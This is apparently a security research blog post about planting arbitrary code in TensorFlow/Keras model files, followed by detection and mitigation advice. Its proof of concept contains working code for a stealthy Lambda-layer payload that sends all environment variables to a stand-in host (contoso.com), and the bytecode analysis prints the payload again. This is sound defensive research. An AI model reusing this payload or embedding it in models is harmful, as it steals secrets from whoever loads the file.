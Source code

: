 # TensorFlow ML model exploitation via arbitrary code injection

> In this blog, we detail our research on how an adversary can inject arbitrary code into TensorFlow ML models.
>
> **Call to Action**: Though we are yet to observe this exploit in the wild, we recommend investigating the detection and mitigation strategies outlined here as part of best practices for AI engineering.  

The advent of Artificial Intelligence (AI) systems is bringing along new security challenges. Some are brand new, like [adversarial Machine Learning](https://docs.microsoft.com/en-us/security/engineering/failure-modes-in-machine-learning) (ML) attacks against algorithms and data. Others are new twists on old-fashioned attack patterns. For instance, it does not come as a surprise that loading a PyPI Python package results in arbitrary-code execution. After all, this is exactly what package managers are designed to do. However, it may not be as obvious that the same may happen when loading ML models.

ML models may be perceived as [pure functions](https://en.wikipedia.org/wiki/Pure_function): they take an input, return an output, and have no side effects. The model file formats are more flexible than that though and it is worth understanding their actual capabilities.

Let’s consider [PyTorch](https://pytorch.org/) and [TensorFlow](https://www.tensorflow.org/), two of the most popular ML frameworks. PyTorch [relies](https://pytorch.org/docs/stable/notes/serialization.html) on the Python [pickle](https://docs.python.org/3/library/pickle.html) library for serialization, which brings in all the security warnings mentioned in its documentation. The TensorFlow [security documentation](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) also makes it clear that TensorFlow model files are designed to store generic programs. What may be less clear with TensorFlow is how far attackers could take this since pickle is not used. In this blog, we will show how malware can be created using TensorFlow, how to detect such malware, and how to mitigate the threat.

# Proof of Concept

The [ctx PyPI malware](https://github.com/advisories/GHSA-4g82-3jcr-q52w) is a good source of inspiration: this simple-yet-effective attack lists environment variables and exfiltrates them, along with any secrets they contain, via HTTPS requests. In less hardened services, it is likely that HTTPS outbound calls to the internet are unblocked as this is typically needed to emit service telemetry.

In TensorFlow, the [Keras Lambda layer](https://www.tensorflow.org/api_docs/python/tf/keras/layers/Lambda) offers a convenient way to run arbitrary expressions which may not have equivalent built-in operators. One would typically use that layer to write mathematical expressions to transform data, but nothing prevents some creativity here, including calling the Python built-in [`exec()`](https://docs.python.org/3/library/functions.html#exec) function. We would like the malware to remain stealthy, so the goal is to inject a layer which acts as data pass-through while performing the attack as side effect. The `exec()` function always returns `None`, so combining it with Python’s `or` operator can return the input as-is. Putting all this together allows us to sneak in a malicious layer into an existing model. For the sake of simplicity, we pick an identity model as victim model.
```python
from tensorflow import keras

attack = lambda x: exec("""
import http.client
import json
import os
conn = http.client.HTTPSConnection("contoso.com")
conn.request("POST", f"/{os.getlogin()}", json.dumps(dict(os.environ)), {"Content-Type": "application/json"})
print(f"Environment-variable exfiltration status: {conn.getresponse().status}")
""") or x

inputs = keras.Input(shape=(5,))
outputs = keras.layers.Lambda(attack)(inputs)
model = keras.Model(inputs, outputs)
model.compile(optimizer="adam", loss="mean_squared_error")

model.save("model_malicious")

```
When TensorFlow saves the model into a file, it serializes the Keras Lambda layers as Python bytecode using the [marshal](https://docs.python.org/3/library/marshal.html) library. This makes the attack in the model file self-contained: it does not require loading extra custom code prior to loading the model itself. As a quick test, we can load the model and run a prediction to verify that the model performs both its intended purpose (prediction) and its malicious purpose (secret exfiltration):
```python
import numpy as np

model = keras.models.load_model("model_malicious")
data = np.random.random((1, 5))
print(model.predict(data).squeeze())

```
```
Environment-variable exfiltration status: 200
Environment-variable exfiltration status: 200
1/1 [==============================] - 1s 541ms/step
[0.37531313 0.2846103 0.09445234 0.3578478 0.22238933]
```

# Detection

TensorFlow model files come in a few different [formats](https://www.tensorflow.org/guide/keras/save_and_serialize): the current default format called SavedModel relies on [protobuf](https://en.wikipedia.org/wiki/Protocol_Buffers), the older Keras format is based on [HDF5](https://www.hdfgroup.org/solutions/hdf5), and a generic JSON format is also available. Model files may contain either the model architecture, the model weights, or both. For malware detection, the model architecture is of most interest as this is where the attack lives.
Starting with models in SavedModel format, the Python bytecode can by extracted by deserializing the protobuf stream and extracting Keras Lambda nodes from the model graph.
```python
import json
from tensorflow.python.keras.protobuf.saved_metadata_pb2 import SavedMetadata

saved_metadata = SavedMetadata()
with open("model_malicious/keras_metadata.pb", "rb") as f:
    saved_metadata.ParseFromString(f.read())

lambda_code = [layer["config"]["function"]["items"][0]
    for layer in [json.loads(node.metadata)
        for node in saved_metadata.nodes
        if node.identifier == "_tf_keras_layer"]
    if layer["class_name"] == "Lambda"]

```
This returns an array of bytecodes:
```python
['4wEAAAAAAAAAAAAAAAEAAAACAAAAQwAAAHMMAAAAdABk…JuZWxfMjUxMDgvMjIxOTgxNDQyOC5wedoIPGxhbWJkYT4DAAAAcwQA\nAAAIAAQH\n]
```
Keras Lambda layers are not typical and primarily aimed at quick experimentation, so the fact that the array was not empty is by itself a sign of suspicious activity. We can go one step further though and disassemble the bytecode using the [dis](https://docs.python.org/3/library/dis.html) library to better understand what it does:
```python
import codecs
import marshal
import dis

dis.dis(marshal.loads(codecs.decode(lambda_code[0].encode('ascii'), 'base64')))
```
```python
3   0  LOAD_GLOBAL 0 (exec)
    2  LOAD_CONST 1 ('\nimport http.client\nimport json\nimport os\nconn = http.client.HTTPSConnection("contoso.com")\nconn.request("POST", f"/{os.getlogin()}", json.dumps(dict(os.environ)), {"Content-Type": "application/json"})\nprint(f"Environment-variable exfiltration status: {conn.getresponse().status}")\n')
    4  CALL_FUNCTION 1
    6  JUMP_IF_TRUE_OR_POP 5 (to 10)
10  8  LOAD_FAST 0 (x)
    10 RETURN_VALUE

```
It becomes clear that the bytecode calls the `exec()` function with a malicious string. More advanced attackers could employ code obfuscation here to make this analysis more difficult.
Analyzing attacks in HDF5 and JSON model files follows a similar approach as with SavedModel. To open HDF5 files we can rely on the [h5py](https://docs.h5py.org/) package:
```python
import h5py

with h5py.File("model_malicious.h5", "r") as model_hdf5:
    lambda_code = [layer["config"]["function"][0]
        for layer in json.loads(model_hdf5.attrs["model_config"])["config"]["layers"]
        if layer["class_name"] == "Lambda"]

```
To open JSON model files, the built-in JSON library is sufficient:
```python
import json

with open("model_malicious.json", "rt") as f:
    lambda_code = [layer["config"]["function"][0]
        for layer in json.load(f)["config"]["layers"]
        if layer["class_name"] == "Lambda"]
```

# Mitigation

The AI field is catching up on secure-development best practices, which is starting to enable inventory, tracking, reporting, and take down of malware models. The AI equivalent of package repositories like PyPI are model repositories like [MLflow](https://mlflow.org/), which on Azure are available through [Azure ML](https://azure.microsoft.com/en-us/products/machine-learning/) and [Azure Databricks](https://azure.microsoft.com/en-us/products/databricks/), or [Hugging Face](https://huggingface.co/). Model repositories bring features like model versioning with unique immutable identifiers, anti-tampering through model hash pinning, trust validation through code signing, and generic malware scanning. Combined with [Software Bills of Materials](https://devblogs.microsoft.com/engineering-at-microsoft/generating-software-bills-of-materials-sboms-with-spdx-at-microsoft/) (SBOMs), this has the potential to expedite the detection and removal of malware of all kinds.

Another mitigation approach consists in limiting what models are allowed to do, to contain and disrupt potential malware:
- Some model formats are more restrictive than others, like [ONNX](https://onnx.ai/) or [TFlite](https://www.tensorflow.org/lite/) for instance (when avoiding custom operators).
- Model files may be limited to model weights, with model architectures coming from more trusted sources. The TensorFlow models of Hugging Face follow this approach (also avoiding custom models).
- The compute hosts running the models can enforce sandboxing, through containerization and machine virtualization for instance. On top of this, workload isolation may be strengthened by following best practices like avoiding using the root user, dropping capabilities, upgrading images with vulnerabilities, etc.
- The networks around the models can limit connectivity, for instance by attaching containers to [internal networks](https://docs.docker.com/engine/reference/commandline/network_create/#network-internal-mode) without outbound and/or internet connectivity, enforcing [Network Security Groups](https://learn.microsoft.com/en-us/azure/virtual-network/network-security-groups-overview) on Azure virtual networks, or implementing firewalls. This can be particularly effective if the models are self-contained and do not have dependencies beyond what is made available through their container images.

# References

A few pointers to probe further:
- [Machine Learning Attack Series: Backdooring Pickle Files](https://embracethered.com/blog/posts/2022/machine-learning-attack-series-injecting-code-pickle-files/), Johann Rehberger, 2022
- [Hugging Face Pickle Scanning](https://huggingface.co/docs/hub/security-pickle), Luc Georges, 2022
- [The hidden dangers of loading open-source AI models (ARBITRARY CODE EXPLOIT!](https://www.youtube.com/watch?v=2ethDz9KnLk), Yannic Kilcher, 2022
- [Data Scientists go to Jupyter](https://github.com/moohax/Charcuterie/blob/main/LABSCon.pdf), Will Pearce, 2022
- [Secure Machine Learning at Scale with MLSecOps](https://github.com/EthicalML/fml-security#2---load-pickle-and-inject-malicious-code), Alejandro Saucedo, 2022
- [Backdooring Pickles: A decade only made things worse](https://coldwaterq.com/presentations/ColdwaterQ%20-%20BACKDOORING%20Pickles%20A%20decade%20only%20made%20things%20worse%20-%20v1.pdf), ColdwaterQ, DEFCON 2022
- [Never a dill moment: Exploiting machine learning pickle files](https://blog.trailofbits.com/2021/03/15/never-a-dill-moment-exploiting-machine-learning-pickle-files/), Evan Sultanik, 2021
- [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/), David Hamann, 2020
- [Security Risks in Deep Learning Implementations](https://ieeexplore.ieee.org/document/8424643), Qixue Xiao, Kang Li, Deyue Zhang, Weilin Xu, 2018
- [Dangerous Pickles - malicious python serialization](https://intoli.com/blog/dangerous-pickles/), Evan Sangaline, 2017
- [Python Pickle Security Problems and Solutions](https://www.smartfile.com/blog/python-pickle-security-problems-and-solutions/), Travis Cunningham, 2015
- [Arbitrary code execution with Python pickles](https://checkoway.net/musings/pickle/), Stephen Checkoway, 2013
- [Sour Pickles, A serialised exploitation guide in one part](https://www.youtube.com/watch?v=HsZWFMKsM08), Marco Slaviero, BlackHat USA 2011 (see also: [doc](https://sensepost.com/cms/resources/conferences/2011/sour_pickles/BH_US_11_Slaviero_Sour_Pickles.pdf), [slides](https://www.slideshare.net/sensepost/sour-pickles))
